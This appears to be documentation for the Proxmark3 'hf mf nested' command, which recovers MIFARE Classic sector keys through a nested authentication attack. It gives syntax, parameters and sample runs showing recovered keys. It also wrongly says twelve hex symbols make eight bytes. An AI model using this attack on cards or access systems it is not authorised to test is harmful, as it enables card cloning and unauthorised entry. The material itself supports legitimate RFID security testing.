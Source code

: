 * one sector attack. It attacks only one sector. It intends to use for testing if card can be broken via this attack.  
hf mf nested o <block number> <key A/B> <key (12 hex symbols)> <target block number> <target key A/B> [t]

Where:

* Card memory: 0 - MINI(320 bytes), 1 - 1K, 2 - 2K, 4 - 4K, <other> - 1K  
* block number must be between 0x00 and 0xFF  
* key type must be either 'A' or 'B' (authentication command is 0x60 for 'A' and 0x61 for 'B')  
* key must be 12 hex symbols (8 bytes) (for example: FFFFFFFFFFFF)  
* target block number must be between 0x00 and 0xFF  
* target key type must be either 'A' or 'B' (authentication command is 0x60 for 'A' and 0x61 for 'B')  
* t - transfer keys into emulator memory. Fills the emulator memory with extracted keys.  
Example of one sector attack:
```ruby
proxmark3> hf mf nested o 0 a ffffffffffff 4 a
--block no:00 key type:00 key:ff ff ff ff ff ff  etrans:0
--target block no:04 target key type:00

..uid:e68487f3 len=5 trgbl=4 trgkey=0
uid:e68487f3 len=1 trgbl=4 trgkey=0
uid:e68487f3 len=5 trgbl=4 trgkey=0
uid:e68487f3 len=1 trgbl=4 trgkey=0
uid:e68487f3 len=2 trgbl=4 trgkey=0
uid:e68487f3 len=5 trgbl=4 trgkey=0
uid:e68487f3 len=3 trgbl=4 trgkey=0
uid:e68487f3 len=2 trgbl=4 trgkey=0
------------------------------------------------------------------
Total keys count:1657647
cnt=0 key= 31 09 f5 fe af ff
cnt=1 key= ff ff ff ff ff ff
cnt=2 key= 8c 9b fa 2f dd ff
cnt=3 key= 0e a7 5a ff ff ff
cnt=4 key= 11 c4 ff 7e dd ff
cnt=5 key= ad 1a 73 7f dd ff
cnt=6 key= f1 59 f0 2c 63 c2
cnt=7 key= 63 74 f0 2c 2f 15
cnt=8 key= 88 60 f0 2c da e8
cnt=9 key= e0 b5 f0 2c 15 60
cnt=10 key= ec 0f f0 2d 2d 74
cnt=11 key= ec b9 f0 2b fb 6a
cnt=12 key= 2c b3 f0 2d 50 20
cnt=13 key= e1 ed f0 2b fb 4a
cnt=14 key= c7 e1 f0 2b f1 ea
cnt=15 key= ab 80 f0 2b c5 ec
Found valid key:ffffffffffff
```

Example of all sectors attack:  
```ruby
proxmark3> hf mf nested 1 0 a ffffffffffff
--block no:00 key type:00 key:ff ff ff ff ff ff  etrans:0
Block shift=0
Testing known keys. Sector count=16
nested...
Iterations count: 0
|---|----------------|---|----------------|---|
|sec|key A           |res|key B           |res|
|---|----------------|---|----------------|---|
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|001|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|002|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|003|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
```